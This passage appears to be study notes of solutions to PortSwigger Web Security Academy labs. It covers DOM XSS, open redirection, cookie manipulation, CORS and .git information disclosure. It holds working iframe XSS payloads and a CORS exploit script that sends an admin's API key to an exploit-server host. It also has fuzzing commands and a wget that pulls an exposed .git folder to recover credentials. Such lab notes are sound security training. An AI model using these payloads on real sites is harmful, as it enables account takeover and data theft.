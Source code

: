 ### 3. DOM XSS using web messages and JSON.parse
```
<iframe src="https://0a03009c03110946c0d1aea2003700e0.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### 4. DOM-based open redirection
>https://0ae900830459749cc2465788006000b5.web-security-academy.net/post?postId=7&url=https://exploit-0ab30006040d744dc2a7561101df00f9.exploit-server.net/exploit#


### 5. DOM-based cookie manipulation
```
<iframe src="https://0a1100e803937b60c6874ab7003b00b5.web-security-academy.net/product?productId=1&'><script>print()</script>">
```


# Cross-origin resource sharing (CORS) + Information disclosure
## Approach
Nothing to add here, I am 85% sure these are not in exam pool, but for CORS check **Access-Control-Allow-Credentials** headers in responses and for Info disclosure you can use ffuf or gobuster:
```
ffuf -u http://kek.com/FUZZ -w /usr/share/dirb/wordlists/big.txt -t 50 -c
gobuster dir -u http://kek.com -w /usr/share/dirb/wordlists/common.txt
```

## Labs
1. CORS vulnerability with trusted insecure protocols
>1. Observe Access-Control-Allow-Credentials header in /accountDetails
>2. Put Origin: stock.lab-id header  
>3. Go to your exploit server and create malicious payload to send admin's api key to ur server:
```
<script>
location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

1. Information disclosure in version control history
>Observe .git directory on site. Download entire .git folder with ```wget -r https://YOUR-LAB-ID.web-security-academy.net/.git/```  
Open folder using ```tig /home/kali/Desktop/.git```, observe admin credentials.


# XML external entity (XXE) injection
## Approach
The main tip is to scan the whole (not targeted!) request to, usually, /product/stock check:  
![image](https://user-images.githubusercontent.com/58632878/224696734-7497a283-9550-4ad1-bc7b-647cf10f0678.png)  
  
